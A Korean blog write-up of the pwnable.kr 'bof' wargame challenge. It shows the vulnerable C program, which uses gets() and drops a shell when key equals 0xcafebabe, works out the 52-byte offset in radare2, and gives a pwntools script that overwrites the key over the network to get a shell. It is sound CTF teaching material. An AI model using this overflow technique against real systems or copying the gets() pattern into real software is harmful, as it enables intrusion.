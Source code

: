 ```yaml
---
title: (47) pwnable.kr bof 문제 풀이
date: 2024-03-12 +09:00
categories:
  - 포너블
tags:
  - [포너블, pwnable.kr]
---
```

{% raw %}
## 문제 설명
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

## 문제 풀이
이번 문제는 앞서 풀어본 문제와는 다르게 nc로 접속하는 방식입니다.  
따라서 첨부된 소스코드 부터 확인하겠습니다.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme); // smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}
int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}

```
`gets`로 `overflowme`라는 변수값을 받아오고 있습니다. `overflowme`와는 별개로, `key`가 `0xcafebabe`인 경우 `/bin/sh` 즉, 쉘을 얻을 수 있다고 합니다. 문제 이름에서도, 변수 이름에서도 알 수 있듯이 버퍼 오버플로우 취약점을 이용해 `key`를 변경하는 방식으로 문제를 풀어야 할 것 같습니다.  
그러기 위해선 어셈블리 수준으로 분석해 볼 필요가 있습니다.  
  
`radare2`를 이용해서 제공된 바이너리의 sym.func를 확인해 보았습니다.
![](http://localhost:4000/assets/img/post/47/1.png)

`call gets` 윗부분을 보면 `var_2ch`가 등장하는데, 이게 c코드에서 `overflowme`라는 변수에 해당한다는 것을 알 수 있습니다.  
가장 위쪽, `var_2ch`가 어떻게 할당되는지 보면 `ebp-0x2c`의 주소를 가지고 있습니다.  
  
또한 `cmp`에서 사용하고 있는 `arg_8h`의 경우에는 `0xcafebabe`와 같이 사용되고 있는 것으로 보아 함수의 인자로 사용되는 `key`라는 것을 알 수 있고, 그 주소는 `ebp+0x8`입니다.  
  
즉, `overflowme`와 `key`는 주소상 `0x2c+0x8(52)`만큼의 거리를 두고 떨어져 있다는 뜻입니다.  
만약 gets로 입력을 받을 때, 52바이트 이상의 무언가를 입력하게 되면 key값에 접근하여 값을 변경할 수 있게 됩니다.  

```python
from pwn import remote

p = remote('pwnable.kr', 9000)
p.sendline(b'a' * 52 + b'\xbe\xba\xfe\xca')
p.interactive()
```
pwntools를 위와 같이 코드를 만들어 주었습니다. 이상하게 pipe로 넘겨주려니까 제대로 안 넘어가는 건지 안되더라고요.  
52바이트의 더미값과 `0xcafebabe`를 리틀 엔디안 형식으로 입력해주도록 만들었습니다.  
이를 실행하면
![](http://localhost:4000/assets/img/post/47/2.png)
위와 같이 쉘을 얻을 수 있게 되고 `cat flag`로 flag를 얻을 수 있습니다.
{% endraw %}